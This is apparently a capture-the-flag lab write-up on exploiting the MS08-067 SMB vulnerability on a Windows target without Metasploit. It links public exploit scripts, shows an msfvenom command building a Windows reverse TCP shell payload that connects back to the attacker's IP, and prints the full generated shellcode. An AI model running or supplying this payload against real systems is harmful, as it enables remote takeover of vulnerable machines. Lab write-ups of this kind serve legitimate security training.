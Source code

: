 **->** SMB appears to be vulnerable to the well known **MS08-067** and **MS17-010**. We will exploit the `MS08-067` vulnerability without Metasploit.

**Note**: There are 2 modules (for both the vulnerabilities) available in Metasploit that can perform the exploitation automatically.


&nbsp;

# Exploitation

On the web we can find different exploit scripts: https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py.

**Note**: If we were on Python3 -> https://raw.githubusercontent.com/Agent-Tiro/HackTheBoxScripts/master/Python3-MS08-067.py

After reading the code, we can see that the exploit requires us to replace the default shellcode with a custom one with our own machine IP. To create the shellcode, we can use the following options in `msfvenom`:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows -v shellcode

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1494 bytes
unsigned char shellcode[] =
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\x63\xad\xf8\xc0\x83\xee\xfc\xe2\xf4\x9f\x45\x7a\xc0\x63\xad"
"\x98\x49\x86\x9c\x38\xa4\xe8\xfd\xc8\x4b\x31\xa1\x73\x92\x77"
"\x26\x8a\xe8\x6c\x1a\xb2\xe6\x52\x52\x54\xfc\x02\xd1\xfa\xec"
"\x43\x6c\x37\xcd\x62\x6a\x1a\x32\x31\xfa\x73\x92\x73\x26\xb2"
"\xfc\xe8\xe1\xe9\xb8\x80\xe5\xf9\x11\x32\x26\xa1\xe0\x62\x7e"
"\x73\x89\x7b\x4e\xc2\x89\xe8\x99\x73\xc1\xb5\x9c\x07\x6c\xa2"
"\x62\xf5\xc1\xa4\x95\x18\xb5\x95\xae\x85\x38\x58\xd0\xdc\xb5"
"\x87\xf5\x73\x98\x47\xac\x2b\xa6\xe8\xa1\xb3\x4b\x3b\xb1\xf9"
"\x13\xe8\xa9\x73\xc1\xb3\x24\xbc\xe4\x47\xf6\xa3\xa1\x3a\xf7"
"\xa9\x3f\x83\xf2\xa7\x9a\xe8\xbf\x13\x4d\x3e\xc5\xcb\xf2\x63"
"\xad\x90\xb7\x10\x9f\xa7\x94\x0b\xe1\x8f\xe6\x64\x52\x2d\x78"
"\xf3\xac\xf8\xc0\x4a\x69\xac\x90\x0b\x84\x78\xab\x63\x52\x2d"
"\x90\x33\xfd\xa8\x80\x33\xed\xa8\xa8\x89\xa2\x27\x20\x9c\x78"
"\x6f\xaa\x66\xc5\xf2\xca\x6d\xa5\x90\xc2\x63\xac\x43\x49\x85"
"\xc7\xe8\x96\x34\xc5\x61\x65\x17\xcc\x07\x15\xe6\x6d\x8c\xcc"
"\x9c\xe3\xf0\xb5\x8f\xc5\x08\x75\xc1\xfb\x07\x15\x0b\xce\x95"
"\xa4\x63\x24\x1b\x97\x34\xfa\xc9\x36\x09\xbf\xa1\x96\x81\x50"
"\x9e\x07\x27\x89\xc4\xc1\x62\x20\xbc\xe4\x73\x6b\xf8\x84\x37"
"\xfd\xae\x96\x35\xeb\xae\x8e\x35\xfb\xab\x96\x0b\xd4\x34\xff"
"\xe5\x52\x2d\x49\x83\xe3\xae\x86\x9c\x9d\x90\xc8\xe4\xb0\x98"
"\x3f\xb6\x16\x18\xdd\x49\xa7\x90\x66\xf6\x10\x65\x3f\xb6\x91"
"\xfe\xbc\x69\x2d\x03\x20\x16\xa8\x43\x87\x70\xdf\x97\xaa\x63"
"\xfe\x07\x15";
```
